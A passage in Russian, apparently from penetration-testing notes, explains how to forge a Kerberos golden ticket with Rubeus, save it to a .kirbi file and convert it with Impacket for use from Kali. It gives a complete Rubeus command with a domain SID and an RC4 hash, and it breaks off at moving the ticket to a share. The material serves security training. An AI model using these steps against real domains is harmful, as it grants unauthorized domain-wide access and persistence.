 ### Получаем билет локально и используем удаленно

Допустим, мы выпустили билет с помощью **Rubeus** и хотим, чтобы он был в нашем распоряжении на локальном хосте для возможности использовать его удаленно в любое время. Тогда для этих целей мы можем использовать **ticketConverter** из набора **Impacket.** Это является необходимым, если вы хотите использовать билет на Unix системах

Для этого выпустим билет, но не будем его внедрять в нашу сессию. Вместо этого, просто сохраним его в файл:

`.\Rubeus.exe golden /newpac /domain:test.local /sid:S-1-5-21-3271603407-350436319-1246551825 /rc4:443867096fbe25b90fd8e4e612cb98d8 /user:goldenticket_user /outfile:1.kirbi`

![](../../../Attachments/image_12_2.png)

Теперь, например, перенесем билет на шару и заберем его с Kali:
